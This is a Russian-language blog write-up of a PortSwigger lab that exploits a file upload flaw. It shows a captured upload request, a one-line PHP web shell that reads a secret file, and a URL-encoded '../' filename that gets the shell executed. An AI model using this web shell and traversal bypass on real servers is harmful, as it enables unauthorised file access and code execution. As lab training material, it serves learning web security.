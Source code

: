 ```yaml
---
title: "Web shell upload via path traversal"
date: 2025-08-08
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/preventing-file-execution-in-user-accessible-directories/file-upload/lab-file-upload-web-shell-upload-via-path-traversal"
classes: wide
---
```


В данной лабе содержится **уязвимость в загрузке файлов**. Для ее прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать креды `wiener`:`peter`.

```
https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с кредами из задания:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/1.png){: height="200" .align-center}

Тут есть возможность загрузить картинку, воспользуюсь ей.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/2.png){: height="200" .align-center}

Открою картинку в отдельном окне.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/3.png){: height="200" .align-center}

Пришла идея, что я могу получить доступ к нужному файлу с помощью **Path Traversal** уязвимости. Попробую через `URL` получить файл:

```
../../../home/carlos/secret
../../../../home/carlos/secret
```

Ничего не получилось( Посмотрю в другом месте. Гляну `POST`-запрос к серверу:

```http
POST /my-account/avatar HTTP/2
Host: 0a07003d03613f59817b5c9400e9003a.web-security-academy.net
Cookie: session=7E7K4PEvnIiGMnYLxrlYcBAoSNOt5YJJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary6640f312240f713049159f0d6197d925
Content-Length: 107749
Origin: https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary6640f312240f713049159f0d6197d925
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

Тут есть интересное поле `Content-Disposition: form-data;`. Это значит, что через поле `filename` я могу передать путь для сохранения моего файла. Проверю, могу ли я сохранить другой формат файла. Из контекста прошлых лаб попробую загрузить `PHP` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Файл успешно загрузился на сайт, но не выполнился. 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/4.png){: height="200" .align-center}

Попробую изменить путь для сохранения файла на `../exploit.php`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/5.png){: height="200" .align-center}

Видно, что путь до файла не изменился. Закодирую его в `URL`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/6.png){: height="200" .align-center}

Получилось) Теперь я могу получить нужный файл. По пути `files/avatars/../exploit.php`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/7.png){: height="200" .align-center}

Сдам полученный токен для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/8.png){: height="200" .align-center}
